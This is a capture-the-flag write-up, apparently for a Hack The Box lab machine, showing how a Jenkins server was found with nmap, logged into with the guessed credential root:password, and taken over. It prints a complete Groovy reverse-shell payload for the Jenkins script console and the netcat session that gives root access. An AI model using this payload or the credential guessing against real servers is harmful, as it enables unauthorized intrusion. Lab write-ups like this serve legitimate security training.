 - [nmap](#nmap)
- [Web Access](#web-access)
- [Getting Shell](#getting-shell)


# Pennyworth Enumeration

## nmap 

```bash
$ nmap pennyworth.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 23:01 JST
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 56.40% done; ETC: 23:02 (0:00:13 remaining)
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 60.17% done; ETC: 23:02 (0:00:12 remaining)
Nmap scan report for pennyworth.htb (10.129.231.216)
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy
```


```bash
nmap -sCV pennyworth.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 23:25 JST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 31.62% done; ETC: 23:25 (0:00:06 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.12% done; ETC: 23:25 (0:00:04 remaining)
Nmap scan report for pennyworth.htb (10.129.231.216)
Host is up (0.21s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn\'t have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

```

Seems like it only has one open HTTP server at `8080`

Key findings: 
- HTTP on port 8080

## Web Access

Accessing `http://pennyworth.htb:8080` ( I added target IP in `/etc/hosts`) led me to a login page for `Jenkins`

![](assets/jenkings_login.png)

Jenkins seems to be an [open-soucred CI/CD](https://www.jenkins.io/) ? I could not find any information on default credential for this product. Given the limited intel, I'm assuming the credential is something basic such as
- `root:password`
- `root:admin`
- `admin:admin`

Turns out `root:password` was the correct combination.

Now, Jenkins is a CI/CD tool, so it's likely that there is a way to upload a script to the tool and somehow get shell. A some research led me to [this website](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6), which has detailed steps on getting shell using the script console.

![](assets/jenkins_script_console.png)

## Getting Shell

Following the website guide, I have to paste the shell command to the script console while listening to a designated port. For this case, I used port 4444 as a listener..

```bash
$nc -lvnp 4444
```

```groovy
String host="{my localhost port}";
int port=4444;
String cmd="bash";
Process p=new

ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And this gave me shell acces!! 

```bash
$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.231.216] 51662
ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

cd root
ls
flag.txt
snap

cat flag.txt
9cd**
```
